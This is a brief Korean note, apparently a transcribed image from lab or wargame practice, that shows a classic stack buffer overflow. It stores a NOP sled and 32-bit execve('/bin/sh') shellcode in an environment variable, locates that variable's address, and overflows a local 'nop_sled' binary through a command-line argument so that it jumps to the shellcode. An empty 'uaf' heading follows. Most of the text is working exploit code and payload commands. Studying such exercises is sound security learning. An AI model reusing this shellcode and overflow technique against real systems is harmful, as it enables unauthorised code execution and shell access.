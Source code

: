 # nop
쉘코드를 환경변수로 등록한다  
export SHELLCODE=`python -c "print '\x90' * 100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'"`

환경변수의 주소를 확인한다.
env -> 주변주소 찾아서 909090인 부분중 하나를 가져온다.

주소:'\x9d\xdf\xff\xff'  
./nop_sled `python -c "print '\x90' * 68 + '\x9d\xdf\xff\xff'"`  
명령줄 인자로 값을 전달한다.

# uaf
